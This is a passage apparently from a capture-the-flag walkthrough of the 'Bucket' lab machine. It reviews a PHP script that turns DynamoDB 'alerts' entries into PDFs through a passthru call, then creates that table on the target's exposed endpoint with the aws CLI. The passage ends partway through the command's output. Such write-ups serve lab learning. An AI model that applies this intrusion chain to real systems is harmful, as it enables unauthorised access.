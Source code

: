 - `index.php`
  - On `POST` parameter `get_alerts`, it checks `alerts` table for `Ransomware`
  - Then it will create a file win random filename in `files` and write the `data` column
  - Then it converts `html` to `pdf` using `pd4ml`
```
roy@bucket:/var/www/bucket-app$ cat index.php 
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        file_put_contents('files/'.$name,$item["data"]);
                }
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
<SNIP>
```

- We saw that `DynamoDB` doesn't have `alerts` table
  - So we should create it
  - Follow the [post](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/getting-started-step-1.html)
```
└─$ aws --endpoint-url http://s3.bucket.htb dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 
{
    "TableDescription": {
        "AttributeDefinitions": [
            {
                "AttributeName": "title",
                "AttributeType": "S"
            },
            {
                "AttributeName": "data",
                "AttributeType": "S"
            }
        ],
        "TableName": "alerts",
        "KeySchema": [
            {
                "AttributeName": "title",
                "KeyType": "HASH"
```